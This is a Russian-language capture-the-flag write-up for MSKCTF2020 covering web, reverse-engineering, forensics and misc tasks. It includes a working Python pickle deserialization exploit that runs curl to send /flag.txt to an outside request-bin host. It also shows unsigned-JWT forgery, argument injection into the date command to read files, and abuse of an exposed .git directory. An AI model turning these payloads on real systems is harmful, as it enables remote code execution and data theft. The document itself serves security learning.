 # MSKCTF2020
![](https://sun1-91.userapi.com/D9by1Coj-CT6hXyTEAe4YtdzOYMMGBmd72Rv_Q/IuaWVh4wIYY.jpg)
<details>
    <summary><b>More-less [PPC]</b></summary>
    <br>
    
Подключаемся по `nc` к заданию и видим, что от нас требуют угадать число при помощи бинарного поиска, реализацию которого можно написать на python.
</details>
<details>
    <summary><b>Funny Farm [PPC]</b></summary>
    <br>
Прочитав условие задачи можно понять, что это знаменитая игра быки и коровы (она же Mastermind). Существует много способов решения, здесь использовано дерево исходов.
</details>
<details> 
    <summary><b>Simple [RE]</b></summary>
    <br>
    
Запустив несколько раз исполняемый файл, приходим к выводу, что зашифрованное значение символа не зависит от последующих. Значит, можно перебирать флаг посимвольно, сверяясь с содержимым файла `output.txt`.
</details>
<details> 
    <summary><b>Keycap [MISC]</b></summary>
    <br>
    
Изучив `dump.pcap` с помощью wireshark, понимаем, что перед нами находится usb capture. По запросу "ctf usb capture" находим скрипт https://ctf-wiki.github.io/ctf-wiki/misc/traffic/protocols/USB/ и запускаем: `python ./script.py dump.pcap`.
Вывод:


`[+] Found : keycap.tasks.2020.ctf.cs.msu.ru<RET>eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZXRGbGFnIjoiVHJ1ZSIsInNob3dGbGFnIjoiRmFsc2UifQ.<RET>`


Видим url и JWT токен. Пробуем отправить токен в форму на http://keycap.tasks.2020.ctf.cs.msu.ru и получаем ответ


>Flag is already set!


Разбираемся в чем дело. Пробуем раздекодить токен в base64 - `{"typ":"JWT","alg":"none"}.{"setFlag":"True","showFlag":"False"}`. Видим, что токен ничем не подписан и его можно изменять как хочется. Если установить `{"setFlag":"False","showFlag":"True"}` и сдать вновь полученный токен, сервис отдаст флаг.
</details>
<details> 
    <summary><b>Display I,II [MISC]</b></summary>
    <br>
    
Просмотрев гифку замечаем, что считыванию qr кода мешают пиксели, которые не меняются на протяжении всей гифки. Значит нужно собрать QR код учитывая их расположение.

Прежде всего, гифку надо разбить по кадрам на картинки в формате jpg (для работы с OpenCV). Это делается с помощью онлайн конвертеров. Теперь можно приступать к написанию скрипта.

Открываем любое изображение из папки с кадрами гифки. Оно будет испольховаться для создания маски изменяющихся пикселей. Затем берем выборку кадров гифки(я взял кадры с кодом, но по сути можно взять любые другие, важно количество). Проходимся по выборке и ищем пиксели, которые от кадра к кадру меняются и отмечаем их на изображении-маске зеленым цветом. После завершения  анализа выборки, получаем изображение-маску, где зеленым отмечены пиксели не подверженные помехам. Открываем изображение, в которое будет записываться итоговый код, определяем область куда он будет записываться и обводим эту область белой рамкой, тк отступ вокруг кода является обязательным условием для сканирования(как выяснилось, хватило верхнего и  правого отступа). Далее берем выборку кадров с проходом qr кода, находим координаты кода на первой картинке и на сколько пискелей код сдвигается с каждым кадром. Учитывая это, анализируем в каждом изображении область в которой находится код следующим образом: если пикслель кода совпадает с зеленым пикселем маски, то переносим этот пиксель на итоговое изображение, учитывая его цвет для создания черно белого кода. Проанализировав таким образом всю выборку прохода кода, получаем готовый читаемый код. Скрипт работает как для Display I, так и для Display II.
</details>
<details> 
    <summary><b>Pickle [WEB]</b></summary>
    <br>
    
Сразу после прочтения названия таска становится понятно, что он будет связан с "опасной" сериализацией в модуле pickle.

Немного осмотрев сервис, понимаем, что у нас есть возможность кастомизировать внешний вид текста на главной странице путем изменения параметров на /customize, которые в свою очередь сохраняются в куках. На этой же странице и происходит сериализация. Теперь нужно написать/нагуглить эксплойт. 

В интернете достаточно примеров эксплойтов, однако в процессе эксплуатации становится понятно, что некоторые модули(например, builtins) забанены, нужно искать другие пути. 

На странице документации пикла узнаем о возможности использования разных протоколов(0-5), отличающихся своей новизной. Попробуем наш эксплойт с 0ым протоколом.

```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl  http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```

Для этого пытаемся сделать eval(), c помощью которого импортируем os и вызваем system(). Следующая часть пейлоада - попытка отправить себе запрос на request-bin через curl. Копируем полученный base64 и заменяем значение куки custom_style.

Получаем запрос, значит эксплойт сработал. Осталось отправить себе флаг, однако для этого нужно понять, где он лежит. Пробуем несколько раз, получаем флаг. Для отправки файла себе я использовал опцию --data-binary.


#### Финальный эксплойт:
```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl --data-binary @"/flag.txt" http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```
#### В результате должен прийти такой запрос:

![Request example](https://github.com/WATyag/MSKCTF2020/blob/master/pickle/requestbin.jpg)
</details>
<details> 
    <summary><b>Beta release [WEB]</b></summary>
    <br>
Таск представляет из себя сервис, целью которого видимо является троллинг участников, так как при попытке получить абсолютно любой флаг мы получаем один и тот же ответ - "Такой флаг еще не подвезли :(". Что же, попробуем разобраться и найти настоящий флаг, утерев нос обидчикам!

Первичный анализ обширных возможностей таска не дал нам никаких интересных результатов, поэтому попробуем поискать "поглубже", используя dirsearch.

`python3 dirsearch.py -u http://beta-release.tasks.2020.ctf.cs.msu.ru/ -e php html js`

```
Target: http://beta-release.tasks.2020.ctf.cs.msu.ru/

[14:44:22] Starting:
[14:44:22] 400 -  182B  - /%2e%2e/google.com
[14:44:22] 200 -   12B  - /.git/COMMIT_EDITMSG
[14:44:22] 200 -  137B  - /.git/config
[14:44:22] 200 -   73B  - /.git/description
[14:44:22] 200 -  691B  - /.git/index
[14:44:22] 200 -   23B  - /.git/HEAD
[14:44:22] 200 -  250B  - /.git/info/exclude
[14:44:22] 200 -   10KB - /.git/logs/refs/heads/master
[14:44:22] 200 -   56KB - /.git/logs/HEAD
[14:44:22] 200 -   41B  - /.git/refs/heads/master
[14:44:22] 200 -   54B  - /.gitignore
[14:44:22] 200 -   54B  - /.gitignore/
[14:44:27] 200 -    2KB - /contacts
```

Проанализировав результаты понимаем, что разработчики "забыли" удалить гит репозиторий. Попробуем сдампить его, для этого воспользуемся тулзой git-dumper. Далее войдя в папку со скачанным репозиторием, посмотрим историю коммитов:


`git log`

Листая историю коммитов замечаем следующее:

```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования
```

Интересно, посмотрим сами изменения:

`git show  e9d0319984c8ea23b61ebd83da25507c973d19d1`


```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования

diff --git a/main.py b/main.py
index cf4d6c8..1a127ae 100644
--- a/main.py
+++ b/main.py
@@ -1,22 +1,41 @@
 from flask import Flask
 from flask import render_template
+from flask import request

 app = Flask(__name__, template_folder="templates/", static_folder="./")

+flags = {
+    'alpha-version': 'MSKCTF{l34v1g_g1t_f0ld3r_1s_t00_b4d_id34_l0l}',
+    'keycap': '',
+    'happy_new_rtfm': '',
+    'Le Coq': '',
+    'This is the way': '',
+    'pickle': '',
+    'librecloud': '',
+    'corehard': '',
+    'crypto-300': '',
+    'Turtle': '',
+    'Funny Farm ': ''
+}
+
...
```
</details>
<details> 
    <summary><b>Happy new RTFM [WEB]</b></summary>
    <br>
    
На главной странице таска нас встречает обратный отсчет до нового года. Попробуем разобраться как он работает. 

Файл utils.js отправляет запрос /get_date.php, где через  переменную fmt указывает формат времени. get_date.php возвращает текущее время в заданном формате, после чего расчитывается оставшееся время до нового года и запускается таймер.

В самом таймере нет ничего интересного, а вот возможность передавать данные get_date.php выглядит перспективно.

Отправляя туда всякий шлак в попытках разобраться, что именно выполняет данный скрипт, получаем следующий ответ:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:41:25 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.0
Content-Length: 68

date: invalid option -- 'l'
Try 'date --help' for more information.
```

Тут же понимаем, что это вывод date Linux. Попробуем отправить --help:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:45:49 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 4704
Connection: close
X-Powered-By: PHP/7.4.0
Vary: Accept-Encoding

Usage: date [OPTION]... [+FORMAT]
  or:  date [-u|--utc|--universal] [MMDDhhmm[[CC]YY][.ss]]
Display the current time in the given FORMAT, or set the system date.

Mandatory arguments to long options are mandatory for short options too.
  -d, --date=STRING          display time described by STRING, not 'now'
      --debug                annotate the parsed date,
                              and warn about questionable usage to stderr
  -f, --file=DATEFILE        like --date; once for each line of DATEFILE
  -I[FMT], --iso-8601[=FMT]  output date/time in ISO 8601 format.
                               FMT='date' for date only (the default),
                               'hours', 'minutes', 'seconds', or 'ns'
```

Замечаем опицию -f , умеющую читать дату из файла. Это выглядит как то, что нам нужно. Отправим --file=/etc/flag.txt :

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Happy%20new%20RTFM/burp.jpg)
</details>
<details> 
    <summary><b>Incident [WEB]</b></summary>
    <br>
    
Исследуя таск замечаем, что подключеный к странице not-a-flag.js, который блокируется правилами csp. Также делается запрос на /csp-reports, где помимо прочего передается uri заблокированного файла. Ответ на этот запрос таков:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:12:58 GMT
Content-Type: text/plain
Content-Length: 96
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /not-a-flag.js with content 'This file does not contain a flag' is blocked by CSP
```

Стоит отметить, что при попытке перейти на /not-a-flag.js таск возвращает 404. Попробуем перехватить запрос через burp и заменить "not-a-flag.js" на что-то более интересное. 

Пробуем 'flag.txt', получаем:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:22:43 GMT
Content-Type: text/plain
Content-Length: 58
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /flag.txt with content '' is blocked by CSP
```

Быть может, flag.js? Ведь изначально к странице подключался javascript файл. Ответ:

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Incident/burp.jpg)
</details>
<details> 
    <summary><b>Truth News [WEB/OSINT]</b></summary>
    <br>
    
*До хинта*

Тупим, тыкаемся во все, что попадется на глаза, толком не понимаем, что нужно делать.

*Хинт* 

`Hint: Мы знаем, что автор сайта любит снимать челленджи для соцсетей и плохо запоминает пароли.`

*После хинта*

 Понимаем очевиднейший(учитывая содержаение сайта) намек на тикток, ищем там пользователя с таким же ником(covidbuster), находим в его профиле видео, где совершенно случайно палится логин и пароль(login - covidbuster; password - CTF_p@ssw0rd):
 
 ![Tik-Tok](https://github.com/WATyag/MSKCTF2020/blob/master/Truth%20News/tikitikitok.jpg)
 
 Учитывая, что таск написан с использованием wordpress, нетрудно догадаться, что перед нами логин и пароль от админки. Ищем ее через dirsearch или гуглим дефолтный роут(его также можно найти на /?page_id=2) - "/wp-admin".

 Заходим в админку, замечаем установленный плагин WP File Manager. Меняем в его настройках "Public Root Path" на "/", находим флаг.
</details>
<details>
    <summary><b>You've got mail [FOREN]</b></summary>
    <br>
    
Нам дан файл без расширения. Открыв его в текстовом редакторе (notepad++ as example) видим перед собой, что-то по типу дампа почты.

Просмотрев дамп, находим base64 от архива:
```
 filename="attach.zip"

UEsDBBQACQAIAFZidVBv9f5ahwAAAHkAAAAIAAAAZmxhZy50eHQ45c3zHhuqVNivOf80djnC
tmkmwiSCTELSf0iFP6kEGDd3NlChMcSk0q/kN9oCTYH1NZSli0d2DS22xNVt/wLwLEwkwxdN
CXNajXmLRN5FxD3C2/Br6aCFvpylLx6y245zkB0cd8u9ICEVoiMhjITSIsAsnarMCK8IUwZX
MLNAehKGf0nkGkFQSwcIb/X+WocAAAB5AAAAUEsBAh8AFAAJAAgAVmJ1UG/1/lqHAAAAeQAA
AAgAJAAAAAAAAAAgAAAAAAAAAGZsYWcudHh0CgAgAAAAAAABABgAmQOVuGH/1QGE2Utw6v7V
AYTZS3Dq/tUBUEsFBgAAAAABAAEAWgAAAL0AAAAAAA==
--------------100AC5362A69E32B7F7DE353--
```

Достаем архив из base64 с помощью сайта https://base64.guru/converter/decode/file

В этом архиве видим один файл flag.txt, но он запаролен.

Однако в дампе было сообщение:

```
Content-Transfer-Encoding: 8bit

╨Э╨░╤Б╤В╤Г╨┐╨╕╨╗ ╤Б╨╡╨╖╨╛╨╜ ╨┐╨╡╤А╨╡╨▓╨╡╤А╨╜╤Г╨▓╤И╨╕╤Е╤Б╤П ╨┐╨╕╨╜╨│╨▓╨╕╨╜╨╛╨▓, ╨▓╤Л╨┤╨▓╨╕╨│╨░╤О╤Б╤М ╨╜╨░ ╨┐╨╛╨▒╨╡╤А╨╡╨╢╤М╨╡
╨┐╨╡╤А╨╡╨▓╨╛╤А╨░╤З╨╕╨▓╨░╤В╤М ╨╕╤Е ╨╛╨▒╤А╨░╤В╨╜╨╛.

╨С╨╡╤А╤Г ╨╝╨░╨╗╤Г╤О ╨╗╨╛╨┐╨░╤В╤Г ╨╕ ╨╗╤Л╨╢╨╕.

╨Я╤А╨╕╨╗╨░╨│╨░╤О ╤А╨╡╨╖╨╡╤А╨▓╨╜╤Г╤О ╨║╨╛╨┐╨╕╤О ╨╝╨╛╨╕╤Е ╨┤╨╛╨║╤Г╨╝╨╡╨╜╤В╨╛╨▓ ╨╜╨░ ╤Б╨╗╤Г╤З╨░╨╣, ╨╡╤Б╨╗╨╕ ╤Б╨╛ ╨╝╨╜╨╛╨╣ ╤З╤В╨╛-╤В╨╛
╤Б╨╗╤Г╤З╨╕╤В╤Б╤П. ╨Я╨░╤А╨╛╨╗╤М ╨║ ╨░╤А╤Е╨╕╨▓╤Г - ╨╕╤Б╤В╨╕╨╜╨░


╨Т╨░╤И╨░ ╨Э╨░╤В╨░╤И╨░.
```

С помощью сайта  http://www.online-decoder.com/ru переводим сообщение в utf-8:

```
Наступил сезон перевернувшихся пингвинов, выдвигаюсь на побережье
переворачивать их обратно.

Беру малую лопату и лыжи.

Прилагаю резервную копию моих документов на случай, если со мной что-то
случится. Пароль к архиву - истина


Ваша Наташа.
```

Вводим пароль `истина` и получаем файл с флагом.

#### Флаг: MSKCTF{the_truth_i$_0uT_tHeRe_haha}

</details>
<details>
    <summary><b>Dive into the cool story [FOREN/STEG]</b></summary>
    <br>
    
В таске `You've got mail` мы вместе с флагом получаем ссылку на google disk.

Качаем оттуда архив, в котором находится папка `Мои документы`.

В ней находится множество фотографий с пингвинами и несколько word файлов.

Протыкав все файлы, я заметил, что для файла `TWIMC.docx` предпросмотр не работает, хотя с другими .docx файлами все в порядке.

![Предпросмотр не работает](https://github.com/WATyag/MSKCTF2020/blob/master/Dive%20into%20the%20cool%20story/TWIMC.png)

Открыв это файл в текстовом редакторе, можно увидеть сигнатуру `PK`, а это значит, что перед нами архив.

Изменим расширение на `.zip` и посмотрим, что же внутри, а там нас ждал файл `flag.txt`.

#### Флаг: MSKCTF{psst_wanna_d1ve_int0_c001_st0ry}
    
</details>
<details>
    <summary><b>MSKCTF++ [RE]</b></summary>
    <br>
    
По описанию языка `MSKCTF++` стало понятно, что это brainfuck c измененными символами.

Сделаем замену на более привычные для этого языка символы.

Теперь перед нами скрипт на brainfuck, который на некотором моменте начинает очень долго работать. (использую https://copy.sh/brainfuck/)

Точка в языке brainfuck отвечает за вывод символа.

Разобьем код по "." и увидим, что медленная работа начинается с тех символов, когда большое количество раз повторяется подстрока `[>-`.

![Вrainfuck](https://github.com/WATyag/MSKCTF2020/blob/master/MSKCTF%2B%2B/Brainfuck.png)

`[>-` отвечает за создание цикла с 255 итерациями - это сильно тормозит работы, особенно если таких циклов несколько (нам явно хотели помешать выполнить этот код :D).

Так, давайте заменим `[>-` на `[>+` теперь у нас одна итерация в каждом цикле вместо 255, что должно сильно ускорить наш код.

Попробовав запустить его на https://copy.sh/brainfuck/, получаем молниеносный ответ.

```
Welcome! Here is your flag: MSKCTF{LolKekCheburek}
```

#### Флаг: MSKCTF{LolKekCheburek}
    
</details>
